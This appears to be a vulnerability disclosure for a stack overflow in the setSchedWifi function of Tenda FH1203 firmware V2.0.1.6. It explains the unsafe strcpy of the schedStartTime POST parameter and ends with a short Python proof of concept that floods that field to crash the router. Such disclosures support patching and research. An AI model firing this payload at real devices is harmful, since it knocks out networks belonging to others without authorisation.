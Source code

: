 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240319134334271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134334271.png)

![image-20240319134305657](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134305657.png)

![image-20240319134322756](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134322756.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320014506111](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320014506111.png)
